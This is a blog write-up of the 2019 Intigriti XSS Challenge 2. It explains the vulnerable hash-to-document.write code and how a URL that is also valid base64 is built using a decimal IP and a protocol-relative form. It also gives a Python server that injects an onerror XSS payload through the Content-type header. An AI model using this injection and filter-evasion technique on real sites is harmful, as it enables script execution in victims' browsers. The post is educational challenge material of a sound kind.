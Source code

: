 ```yaml
---
layout: post
title:  "Intigriti XSS Challenge 2 and how I lost time to a bad assumption"
date:   2019-05-02
categories: intigriti xss
---
```


[Intigriti](https://www.intigriti.com/public/) is once again offering us an [XSS challenge](https://challenge.intigriti.io/2/). The first one had cryptic code and a complicated setup between the page and an `iframe`, but this time around the code is rather straight-forward. Let's see if that makes the challenge easier. ;)

## Analyzing the code

```javascript
var b64img = window.location.hash.substr(1);
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
  if (this.readyState == 4 && this.status == 200) {
    var reader = new FileReader();
    reader.onloadend = function() {
      document.write(`
        <a href="${b64img}" alt="${atob(b64img)}">
          <img src="${reader.result}">
        </a>`);
    }
    reader.readAsDataURL(this.response);
  }
};
xhttp.responseType = 'blob';
xhttp.open("GET", b64img, true);
xhttp.send();
```

1. The `hash` of the current page's url (minus the leading `#`) is assigned to `b64img`
2. A GET HTTP request is sent to `b64img` and the answer will be read as a [Blob](https://developer.mozilla.org/en-US/docs/Web/API/Blob)
3. If the HTTP request answers with 200, the Blob is [`readAsDataURL`](https://developer.mozilla.org/en-US/docs/Web/API/FileReader/readAsDataURL) with a [`FileReader`](https://developer.mozilla.org/en-US/docs/Web/API/FileReader)
4. Once the Blob is read, `b64img`, `atob(b64img)` and the data URL created from the Blob are inserted into the DOM

Main observations:

- The `hash` of the URL somehow has to be a valid URL because we're making an HTTP request from it and we expect a 200 response
- That URL also has to be a valid base64 string because we're sending it to `atob(64)` which is the JavaScript function to decode base64

## Finding a valid URL

As it was the case for the last challenge, I don't care about XSS payloads yet. It's pretty clear either `b64img`, `atob(b64img)` or `reader.result` will be where we get XSS from, but there is a major challenge before getting there: crafting a valid URL that is also valid base64!

The way its coded, a value for `b64img` without a protocol (i.e.: `http://`) will make a request relative to the current domain (`https://challenge.intigriti.io/2/`). For example if `b64img` is `ABC` it will trigger a request for `https://challenge.intigriti.io/2/ABC` while if `b64img` is `http://test.com` it will trigger a request for `http://test.com`.

At this point I made the assumption that `/` wasn't a valid base64 character (worked too much with url-safe base64 implementations lately!) and lost a ton of time trying a ton of things that made no sense until [@mastjohnny](https://twitter.com/mastjohnny) made me realize that it is a valid base64 character indeed. Many hours were lost exploring data URLs, `XMLHttpRequest` and `FileReader` for strange edge cases that would help me here but I should have verified my assumption instead. :)

### Eliminating invalid characters

I started a server on my machine and tried loading [https://challenge.intigriti.io/2/#http://127.0.0.1](https://challenge.intigriti.io/2/#http://127.0.0.1). This resulted in the following (expected) error

> Uncaught DOMException: Failed to execute 'atob' on 'Window': The string to be decoded is not correctly encoded.

I need to get rid of the `.` and the `:` because they are invalid base64 characters. Two transformations are needed!

1. Remove the `.` by changing the IP to a decimal IP: `http://127.0.0.1` becomes `http://2130706433` (See [IPv4 Address Representations](https://en.wikipedia.org/wiki/IPv4#Address_representations))
2. Remove the `:` by using a protocol-relative URL: `http://2130706433` becomes `//2130706433`
    - A protocol relative url will take the protocol of the parent page

With that I try [https://challenge.intigriti.io/2/#//2130706433](https://challenge.intigriti.io/2/#//2130706433) and the result is the following error

> GET https://127.0.0.1/ net::ERR_CONNECTION_REFUSED

The request went to *https* because I'm on the https version of the challenge. Let's try [http://challenge.intigriti.io/2/#//2130706433](http://challenge.intigriti.io/2/#//2130706433)

> Access to XMLHttpRequest at 'http://127.0.0.1/' from origin 'http://challenge.intigriti.io' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.

There is no CORS header returned by my server so I need to add `Access-Control-Allow-Origin: *` to my response.

I can now reload the same URL and it loads without crashing!

## XSS time

`readAsDataURL` returns a data URL which contains the `Content-type` of the resource loaded. For example the default challenge URL loads an image that turns into the data URL `"data:application/octet-stream;base64,iVBORw0KGgoAAAANSUhEUgAAA0o..."`. This text is inserted straight into the HTML and I have control over the `Content-type` from my server so I set it to `text/" onerror="alert(document.domain)"><!--` and...

![Success!]({{ '/images/intigriti_xss_victory.png' | absolute_url }})

Success! There were other ways to trigger the XSS but instead of listing them here I encourage you to go on twitter and find other write-ups documenting them.

Here's the code used for my server.

```python
#!/usr/bin/python3

from http.server import BaseHTTPRequestHandler, HTTPServer

class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        message = "Hello Intigriti!"

        self.protocol_version = "HTTP/1.1"
        self.send_response(200)
        self.send_header("Content-Length", len(message))
        self.send_header("Content-type", 'text/" onerror="alert(document.domain)"><!--')
        self.send_header("Access-Control-Allow-Origin", "*")
        self.end_headers()

        self.wfile.write(bytes(message, "utf8"))
        return

def run():
    server = ('0.0.0.0', 80)
    httpd = HTTPServer(server, RequestHandler)
    httpd.serve_forever()
run()
```

## Conclusion

Another fun challenge! This time aroud my key takeaways are:

- Challenge your own assumptions, they could be making the challenge harder than it really is
- Different representations of the same thing can help evade filters/validations, keep them in mind!

Thank you [@intigriti](https://twitter.com/intigriti/) and good luck to everyone for the prize!
